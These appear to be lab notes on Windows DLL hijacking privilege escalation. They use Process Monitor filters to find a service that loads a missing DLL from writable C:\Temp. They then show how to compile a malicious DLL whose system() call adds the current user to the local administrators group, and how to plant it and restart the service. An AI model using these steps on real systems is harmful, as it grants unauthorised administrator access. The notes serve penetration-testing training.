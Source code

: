 
**Detection**

try http://github.com/sensepost/rattler

---
Show DLL's tied to specific exe.
```command prompt - target
tasklist /m | findstr "nvcontainer.exe"
```


Open the Tools folder that is located on the desktop and then go the Process Monitor folder.  

In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on Procmon.exe and select ‘Run as administrator’ from the menu.  

In procmon, select ‘Result’.  

In the input box on the same line type: 

```procmon - windows
NAME NOT FOUND  
```

Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’.


In procmon, select ‘Path’.  
In procmon, select ‘ends with'.  

In the input box on the same line type: 

```procmon - windows
.dll 
```

Make sure the line reads “Result is NAME NOT FOUND then Include” and click on the ‘Add’ button, then ‘Apply’, and lastly on ‘OK’.  

Open command prompt and type: 

```command prompt - target
sc start dllsvc  
```

Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘C:\Temp\hijackme.dll’ yet it could not do that as the file was not found. Note that ‘C:\Temp’ is a writable location.

We have 2 results show up, 1 on "Program Files" and 1 in Temp.

![[Pasted image 20220207150415.png]]

**Exploitation**

Copy `C:\Users\User\Desktop\Tools\Source\windows_dll.c` to the Kali VM.

Open windows_dll.c in a text editor and replace the command used by the system() function to: 

```mousepad - kali
cmd.exe /k net localgroup administrators %username% /add
```

Exit the text editor and compile the file by typing the following in the command prompt: 

```bash - kali
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll  
```

Copy the generated file hijackme.dll, to the Windows target.

Place hijackme.dll in ‘C:\Temp’.  

Open command prompt and type: 

```command prompt - windows
sc stop dllsvc & sc start dllsvc
```

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: 

```command prompt - windows
net localgroup administrators
```
